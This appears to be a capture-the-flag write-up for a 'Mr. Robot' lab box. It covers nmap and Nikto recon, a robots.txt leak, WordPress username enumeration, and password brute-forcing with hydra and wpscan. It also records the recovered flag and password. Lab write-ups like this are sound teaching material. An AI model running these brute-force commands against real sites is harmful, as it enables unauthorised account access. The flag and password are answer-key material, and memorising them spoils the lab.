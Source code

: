 # Mr. Robot

## Recon

`nmap -p 10.10.156.16` reveals:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-30 04:22 UTC
Nmap scan report for ip-10-10-156-16.eu-west-1.compute.internal (10.10.156.16)
Host is up (0.00040s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 02:07:5E:78:45:78 (Unknown)
```

Both website addresses loaded a sort of qausi-terminal in the browser, something that looks like it was maybe copied from a promotional site for the show.

Nikto on the http site revealed:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.156.16
+ Target Hostname:    10.10.156.16
+ Target Port:        80
+ Start Time:         2020-04-30 04:30:32 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /readme: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://10.10.156.16/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7889 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2020-04-30 04:35:33 (GMT0) (301 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

`robots.txt` contained:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Giving me an easy first key of `073403c8a58a1f80d943455fb30724b9`

`fsocity.dic` (note the mispelled society) seemed to be a show-focused wordlist. Hmm...

## brute forcing a login

The wordpress login at `/wp-login.php` allowed trivial user enumeration: it would tell you whether the username existed. The first username I tried was successful: `elliot`, after the main character of Mr. Robot. Next step, to me, was brute forcing.

I tried hydra on the wp-login with the `fsocity.dic` file, as that seemed an obvious set of passwords. However after half an hour it still had nothing. I probably could leave it running, but it felt too slow. 

One optimisation was fixing up the source file. I didn't pick this up at first glance, but the fsocity.dic file had a lot of duplicates. Of its 800k entries, only about 11k were unique. Doing a `cat fsocity.dic | sort -u > fsocity.dic.sorted` fixed that up. Hydra was still slow though.

The command I was using, for the record, was: 

`hydra -l Elliot -P fsocity.dic.sorted 10.10.156.16 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.16%2Fw
p-admin%2F&testcookie=1:S=302"`

I had run a wpscan against the wordpress site, but it hadn't returned anything of interest. However, wpscan also includes the ability to do bruteforcing, and even better directly against the xmlrpc rest service that wordpress uses. I ran the following command:

`wpscan --url http://10.10.156.16 -U elliot -P ./fsocity.dic.sorted`

And had a password, `ER28-0652`, in just under two minutes! Note to self, when attacking wp sites, use wpscan for bruteforcing! I had disdained it initially as I'd assumed hydra would be faster.